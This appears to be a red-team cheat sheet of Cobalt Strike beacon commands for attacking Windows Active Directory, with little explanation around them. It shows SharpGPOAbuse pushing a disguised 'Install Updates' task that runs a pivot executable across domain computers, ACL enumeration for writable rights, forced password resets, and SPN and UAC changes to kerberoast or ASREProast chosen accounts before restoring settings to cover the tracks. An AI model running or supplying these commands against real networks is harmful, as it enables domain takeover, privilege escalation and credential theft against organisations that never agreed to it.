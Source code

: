 Force updates on a specific computer

```
run gpupdate /target:computer /force
```

**SharpGPOAbuse**

```
execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc\software\pivot.exe" --GPOName "PowerShell Logging"
```

### Discretionary Access Control Lists

Look for **GenericAll**, **WriteProperty** or **WriteDacl** on user

```
powershell Get-DomainObjectAcl -Identity <USER> | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-<DOMAIN SID>-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl
```

We could also cast a wider net and target entire OUs.

```
powershell Get-DomainObjectAcl -SearchBase "CN=BLAH,DC=child,DC=test,DC=domain" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-<DOMAIN SID>-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

With access like GenericAll we can change passwords, make an account kerberoastable, or modify domain membership

```
run net user <USER> <PASSWORD> /domain
```

create Kerberoast account

```
# assign SPN
powershell Set-DomainObject -Identity <USER> -Set @{serviceprincipalname="SOME/THING"}

powershell Get-DomainUser -Identity <USER> -Properties ServicePrincipalName

# kerberoast
execute-assembly C:\Tools\Rubeus\Rubeus.exe kerberoast /user:<USER> /nowrap

# clear spn
powershell Set-DomainObject -Identity <USER> -Clear ServicePrincipalName
```

Modify the User Account Control value on the account to disable preauthentication and then ASREProast it.

```
# Get current UAC Values to confirm original settings
powershell Get-DomainUser -Identity <USER> | ConvertFrom-UACValue

# add no pre-auth setting
powershell Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}

# ASREPRoast
 execute-assembly C:\Tools\Rubeus\Rubeus.exe asreproast /user:<USER> /nowrap
 
 # remove no pre-auth setting
 powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
 
 # confirm original settings
 powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue
```